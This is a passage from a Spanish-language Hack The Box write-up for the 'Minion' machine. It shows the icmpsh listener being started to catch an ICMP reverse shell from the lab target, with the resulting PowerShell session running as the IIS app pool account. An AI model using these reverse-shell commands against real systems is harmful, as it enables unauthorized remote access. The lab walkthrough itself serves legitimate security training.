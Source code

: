 
Ahora no olvidemos ejcutar los comandos que requeria el script, usare `rlwrap` para tener un mejor manejo de la consola.

```bash
❯ sysctl -w net.ipv4.icmp_echo_ignore_all=1
❯ rlwrap python icmpsh_m.py 10.10.16.10 10.10.10.57
```

Ahora que estamos en escucha solo debemos ejecutar el script y recibimos la conexión.

![](/assets/images/HTB/htb-writeup-Minion/mini12.PNG)

```cmd
❯ rlwrap python icmpsh_m.py 10.10.16.10 10.10.10.57
Windows PowerShell running as user MINION$ on MINION
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
iis apppool\defaultapppool
```

Ahora al tratar de listar el directorio personal del usuario decoder.MINION, no tenemos acceso:


![](/assets/images/HTB/htb-writeup-Minion/mi1.PNG)
